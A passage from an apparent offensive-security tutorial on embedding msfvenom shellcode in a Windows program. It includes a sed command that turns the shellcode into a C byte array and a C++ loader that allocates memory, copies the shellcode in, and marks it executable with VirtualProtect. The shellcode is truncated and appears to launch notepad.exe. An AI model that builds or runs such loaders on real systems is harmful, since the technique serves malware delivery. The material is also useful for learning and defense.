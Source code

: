 `Note` that msfvenom generated the shellcode byte array with size of 279 bytes however when i saw the size of the array containing the shellcode i found that there is one more byte so it' 280 bytes
![Image](https://github.com/user-attachments/assets/8d83ffb3-1863-4716-8bbd-448cf243fd98)
i found a way to overcome this i switched the byte array from `string literal` in c arrays syntax to a `Byte Array`.
```bash
cat shell|sed 's/"//g'|sed 's/\\x//g' |sed 's/\(..\)/0x\1,/g'
```
![Image](https://github.com/user-attachments/assets/ec943687-7a42-48ec-84f4-b4bcde929d8c)
<br>now let's check the size again

![Image](https://github.com/user-attachments/assets/eab23403-32bb-4521-9182-46fdced896e7)

---
### Shell code in .text section
The **.text** section in a PE file contains the **executable code** (i.e., the program's instructions). It is a **read-only** section and holds the machine code that gets executed by the CPU during runtime.

we need to allocate the memory for the generated shellcode payload, will be using the following code, we will break that code right now just wait.  
**Note**
the shellcode byte array is inside the main function not globally which means that it will be stored in the stack.
```cpp
#include <iostream>
#include <Windows.h>
using namespace std;

int main()
{
	HANDLE Hthread;
	DWORD oldprocess_rights = NULL;
	DWORD Threadid;
	

unsigned char shellcode[] = {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,
/*
snippet
*/
0xd5,0x6e,0x6f,0x74,0x65,0x70,0x61,0x64,0x2e,0x65,0x78,0x65,0x00 };
	//size of shellcode
	unsigned int shellsize = sizeof(shellcode);
	cout << "the size for the shell code is " << shellsize << "\n";
	cout << "the location of the shellcode is at " << &shellcode<<"\n";
	//using getchar for debugging
	//getchar();
	LPVOID alloc = VirtualAlloc(NULL, shellsize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	cout << "Copying shell code to memory\n";
	RtlCopyMemory(alloc, shellcode, shellsize);

	unsigned char* exec_mem = (unsigned char*)alloc;
	cout << "Changing the rights permssions\n";
	BOOL protect = VirtualProtect(alloc, shellsize, PAGE_EXECUTE_READ, &oldprocess_rights);
	if (protect) {
		cout << "The permssions has been changed\n";
	}
	
	//Hthread = CreateThread(0, shellsize, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, &Threadid);
	cout << "Calling the shellcode\n";
	//using getchar for debugging
	//getchar();
```